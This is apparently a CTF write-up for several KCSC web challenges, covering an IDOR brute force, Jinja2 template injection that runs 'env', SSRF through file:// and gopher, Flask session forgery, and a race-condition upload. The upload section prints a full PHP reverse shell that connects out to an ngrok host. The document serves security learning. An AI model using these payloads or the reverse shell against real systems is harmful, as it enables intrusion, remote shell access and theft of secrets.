# Client-side Check


We can easily guess this is an IDOR vulnerability challenge. But the special point here is that the input we enter is not queried directly on the server, but will be passed through ``index.js`` to encrypt and then perform a GET query to the server.



And ``index.js`` is being written in ``jsfuck`` language, let's decode it:
```
(event) => {
	event.preventDefault();

	item = document.getElementsByName("item")[0].value
	const key = aesjs.utils.utf8.toBytes("KCSC@Secret__KEY")
	const iv = aesjs.utils.utf8.toBytes("KCSC@Padding__@@")

	item = item.length % 16 === 0 ? item : item.concat(Array(16 - item.length%16).fill("\x00").join(""))

	let textBytes = aesjs.utils.utf8.toBytes(item);
	var aesCbc = new aesjs.ModeOfOperation.cbc(key, iv);
	var encryptedBytes = aesCbc.encrypt(textBytes);
	var encrypted = btoa(String.fromCharCode.apply(null, encryptedBytes))

	window.location = window.location.protocol + "//" + window.location.hostname + ":" + window.location.port + window.location.pathname + "?item=" + encodeURIComponent(encrypted)
}
```

As you can see, it's being encrypted with       ``AES-CBC`` (It has been the most commonly used mode of operation). Instead of decrypt, We can take advantage of that script to create our own payload to perform bruteforce

We will write a simple script that encrypts 1000 numbers:

``index.js``:
```
var script1 = document.createElement('script');
script1.type = 'text/javascript';
script1.src = 'https://cdn.rawgit.com/ricmoo/aes-js/e27b99df/index.js';
const key = aesjs.utils.utf8.toBytes("KCSC@Secret__KEY");
const iv = aesjs.utils.utf8.toBytes("KCSC@Padding__@@");
for (let i = 1; i < 1000; i++) {
    item = i.toString()
    item = item.length % 16 === 0 ? item : item.concat(Array(16 - item.length % 16).fill("\x00").join(""));
    let textBytes = aesjs.utils.utf8.toBytes(item);
    var aesCbc = new aesjs.ModeOfOperation.cbc(key, iv);
    var encryptedBytes = aesCbc.encrypt(textBytes);
    var encrypted = btoa(String.fromCharCode.apply(null, encryptedBytes));
    console.log(encrypted);
}
```
``index.html``:
```
<h1>Bruh</h1>
<script type="text/javascript" src="https://cdn.rawgit.com/ricmoo/aes-js/e27b99df/index.js"></script>
<script type="text/javascript" src="index.js"> </script>
```
Then save the log to a file and then perform the bruteforce attack

script:
```
#!python3
from urllib.parse import urlencode
import requests
import urllib.parse
sess= requests.Session()
url="http://139.180.134.15:20101/?item="
a_file = open("./127.0.0.1-1650990594971.log")
lines = a_file.readlines()
i=0
for line in lines:
    r=sess.get(url+urllib.parse.quote(line, safe=""),)
    if "KCSC" in r.text:
        print(f"FOUND AT {i} AKA {line} : {r.text}")
        break
    else:
        print(f"[-] Trying {i}")
        i+=1
```



# Ent_teleport Flag
source: [here](./src/Ent_teleport_Flag/Ent_teleport_Flag.zip)

First, we can see that the flag is being stored as an ENV variable in the ``dockerfile``. Just keep that in mind, now let's explore the main.py file.

Summary of main.py file:
- First we have a login form that implements the setuser function as an user through flask session
- At the main page, we have a create note feature that takes input and then filtered through a blacklist


- Once sanitized, it can be represented as ``code``, ``url``, ``screenshot``, ``highlight`` depending on the tag that we choose (EX: ``[m:url]test[/m:url]``)
- And the important thing here is that it uses ``Jinja2`` ( a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.). We can see that bcs ``Jinja2`` is used by ``Flask`` (A  Python Web Frameworks).

We can try a simple payload like this ``{{7*7}}``


bruh =)). even though this payload is filtered, it still works because of this:



instead of returning render_template_string("WAF Block your request"), it simply calls that function. This results in the code below continuing to execute -> resulting in meaningless filtering

so the payload to extract ENV variable data will be:
```
{{ joiner.__init__.__globals__.os.popen('env').read() }}
```



# Ent_teleport Flag [Again]

Similar to the above chall, but this time it was not configured incorrectly (aka config Thọt)



So in this chall, our goal is to take advantage of its features. Specifically here is ``screenshot``. This feature uses the chromedriver module to take screenshots, and of course the flaw it happens here:

 

 it calls the get() function to the url we are controlled without going through any filtering.
Here we can use our arbitrary scheme. 

EX: ``[m:screenshot]data://text/plain;base64,SGVsbG8sIFdvcmxkIQ==[/m:screenshot]``



So the idea will be to use scheme ``file://`` to read content from file main.py to get ``session_key``. And with that ``session_key`` we can re-sign the cookie as admin.

Payload:
``[m:screenshot]file:///app/main.py[/m:screenshot]``



Sign the flask session as admin:



flag: ``KCSC{1_just_l34rn_h0w_t0_t3l3p0rt_t0_y0u_<3}``

# Host_timescale 9999



This web app allows us to upload an image file or a zip file, if it's a zip file, unzip it and save it in the ``upload/zip/unzipped`` directory. And of course it has a whitelist filter ``$whitelist_extension = ['jpg', 'jpeg', 'png', 'gif','zip'];``

The key point of this chall:



After the web app successfully unzips, it calls this function, which ends with the ``unlink() ``function.



So the idea of this chall would be to simply upload a reverse shell. but how can we upload our script without being deleted? The answer is race condition ^^. We will create multi thread and then send the request at the same time

``revershell.php:``
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '2.tcp.ngrok.io';
$port = 10838;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

script race condition:
```
#!python3
import requests
import threading
from multiprocessing.dummy import Pool as ThreadPool
url='http://139.180.134.15:10000/'
def runner(d):
    data={
        "file2upload":open("test2.zip","rb")   
    }
    r1 = requests.post(url+'upload.php',files=data)
    if (requests.get(url+"upload/zip/unzipped/test.php").status_code==200):
            r2 = requests.get(url+"upload/zip/unzipped/test.php")
threads=[]
for i in range(200):
    t=threading.Thread(target=runner,args=[i])
    t.start()
    threads.append(t)
for thread in threads:
    thread.join()
print(threads)
```


# Request as a service



As seen, if we meet the conditions like localhost and the above headers, then we'll have the flag. As hint is given, this chall we will use gopher protocol to trigger this SSRF vulnerability. (Remember to modify CRLF to be able to add headers)

Reference: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#gopher)

During the contest, here's the payload I came up with:
```
http://139.180.134.15:20105/?url=gopher://127.0.0.1:80/1GET%2520%252F%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AX_KEY%253A%2520K3Y_t0_G3t_flaggggg%250D%250AX_FLAG%253AKCSC%250D%250A%250D%250A
```
But I don't understand why it's not working properly, curl is successful but not getting the flag. Turn out that according to [here](https://stackoverflow.com/questions/26936318/remove-the-http-prefix-in-rails-headers), the character ``_``  in the header must be changed to this ``-`` because the norm is must be like that -_-

So here is the final payload:
```
http://139.180.134.15:20105/?url=gopher://127.0.0.1:80/1GET%2520%252F%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AX-KEY%253A%2520K3Y_t0_G3t_flaggggg%250D%250AX-FLAG%253AKCSC%250D%250A%250D%250A
```



Because of that silly mistake, it took me tons of time to figure out what is going wrong